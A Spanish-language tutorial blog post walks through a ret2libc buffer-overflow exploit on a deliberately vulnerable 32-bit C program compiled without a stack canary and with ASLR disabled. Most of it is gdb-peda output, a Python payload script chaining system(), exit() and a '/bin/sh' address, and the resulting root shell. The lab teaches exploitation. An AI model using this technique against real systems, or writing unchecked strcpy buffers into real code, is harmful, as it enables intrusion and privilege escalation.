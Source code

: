 ```yaml
---
layout: post
title: BoF - ret2libc
subtitle: "BoF - ret2libc"
tags: [BoF,linux]
---
```


## Configuración

### Código

```
#include<stdio.h>
#include<string.h>

void vulnerable(char *buff){
        char buffer[64];
        strcpy(buffer,buff);
        printf("%s",buffer);
        printf("\n");
}

void main(int argc, char **argv){
        vulnerable(argv[1]);
}
```

### Compilación

```
gcc -mpreferred-stack-boundary=2 -fno-stack-protector buffer.c -o buff
```

### ASLR deshabilitado

```
cat /proc/sys/kernel/randomize_va_space
0
```

## ret2libc

La idea detrás de `ret2libc` es en lugar de inyectar shellcode y saltar a la dirección que contiene ese shellcode, podemos usar las funciones que ya están en la biblioteca `C`. Por ejemplo:  
Podemos llamar a la función **system()** y hacer que se ejecute `/bin/sh`.  
También necesitaremos usar la función **exit()** para hacer que el programa salga limpiamente.

Así que nuestra payload estará formado por: dirección `system()` + dirección `exit()` + dirección `/bin/sh`

Antes de empezar comprobemos las protecciones del ejecutable:

```
noroot@ubuntu:~/buffer_overflow$ checksec --file buff
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   buff
```

## Explotación

Establecemos un patron de tamaño 100.

```
gdb-peda$ pattern arg 100
```

Corremos el ejecutable. El búffer se desbordará y veremos exactamente donde ocurrió el desbordamiento

```
gdb-peda$ r                                                                                                                            
Starting program: /home/noroot/buffer_overflow/buff 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJ
AAfAA5AAKAAgAA6AAL'                                                
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL                                   
                                                                   
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                       
EAX: 0xa ('\n')              
EBX: 0xb7fc0000 --> 0x1acda8                                       
ECX: 0xb7fc1898 --> 0x0       
EDX: 0xa ('\n')                                                                                                                        
ESI: 0x0                                                           
EDI: 0x0                                                           
EBP: 0x41644141 ('AAdA')                                           
ESP: 0xbffff0c4 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")                   
EIP: 0x41413341 ('A3AA')                                           
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41413341
[------------------------------------stack-------------------------------------]
0000| 0xbffff0c4 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xbffff0c8 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xbffff0cc ("AJAAfAA5AAKAAgAA6AAL")
0012| 0xbffff0d0 ("fAA5AAKAAgAA6AAL")
0016| 0xbffff0d4 ("AAKAAgAA6AAL")
0020| 0xbffff0d8 ("AgAA6AAL")
0024| 0xbffff0dc ("6AAL")
0028| 0xbffff0e0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41413341 in ?? ()
```

Obteniendo el tamaño del offset.

```
gdb-peda$ pattern search          
Registers contain pattern buffer: 
EIP+0 found at offset: 68         
EBP+0 found at offset: 64         
Registers point to pattern buffer:
[ESP] --> offset 72 - size ~28    
[...]
```

Obteniendo las direcciones

```
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7e53310 <__libc_system>
gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xb7e46260 <__GI_exit>
gdb-peda$ find bin/sh
Searching for 'bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f75d4c ("bin/sh")
```

Dirección del sistema: `0xb7e53310`  
Dirección de salida: `0xb7e46260`  
Dirección de shell: `0xb7f75d4c`

## Shell

Escribimos nuestro exploit

```
#!/usr/bin/python

import struct

buffer = "A"*68
system = struct.pack("I", 0xb7e53310)
exit = struct.pack("I", 0xb7e46260)
bin_shell = struct.pack("I", 0xb7f75d4c)

payload = buffer + system + exit + bin_shell

print(payload)
```

Obtenemos una shell

```
noroot@ubuntu:~/buffer_overflow$ ./buff $(python exploit.py)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3`bL]
# whoami
root
# tty
/dev/pts/6
```
